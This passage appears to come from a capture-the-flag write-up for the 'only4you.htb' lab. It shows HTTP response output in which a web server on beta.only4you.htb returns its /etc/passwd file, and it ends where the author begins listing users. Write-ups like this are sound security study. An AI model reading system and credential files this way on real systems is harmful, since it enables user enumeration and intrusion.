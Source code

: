 ```text
< Content-Length: 2079
< Connection: keep-alive
< Content-Disposition: attachment; filename=passwd
< Last-Modified: Thu, 30 Mar 2023 12:12:20 GMT
< Cache-Control: no-cache
< ETag: "1680178340.2049809-2079-393413677"
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
* Connection #0 to host beta.only4you.htb left intact
```

We can identify some users :
